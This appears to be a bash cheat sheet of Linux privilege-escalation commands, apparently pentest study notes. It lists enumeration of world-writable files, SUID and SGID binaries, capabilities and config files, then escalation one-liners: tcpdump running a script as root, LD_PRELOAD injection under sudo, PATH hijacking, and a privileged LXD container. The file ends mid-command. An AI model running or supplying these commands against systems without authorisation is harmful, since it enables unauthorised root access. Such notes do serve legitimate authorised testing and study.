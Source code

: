```bash 

# Find world-writeable directories
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null	

# Find world-writeable files
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null	

uname -a	

# Check the OS version
cat /etc/lsb-release	

# Check the installed version of Screen
screen -v	

# View running processes with pspy
./pspy64 -pf -i 1000	

# Find binaries with the SUID bit set
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null	

# Find binaries with the SETGID bit set
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null	

# find capabilities like SUID manually
/usr/sbin/getcap -r / 2>/dev/null

# Priv esc with tcpdump
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root	

# Check the current user's PATH variable contents
echo $PATH	
getenv

# Add a . to the beginning of the current user's PATH
PATH=.:${PATH}	

#Search for config files
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null	

# View the shared objects required by a binary
ldd /bin/ls	

#Escalate privileges using LD_PRELOAD
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart	

#Check the RUNPATH of a binary
readelf -d payroll | grep PATH	

#Compiled a shared libary
gcc src.c -fPIC -shared -o /development/libshared.so	

# Start the LXD initialization process
lxd init	

# Import a local image
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine	

#Start a privileged LXD container
lxc init alpine r00t -c security.privileged=true	

lxc config device add r00t mip a

```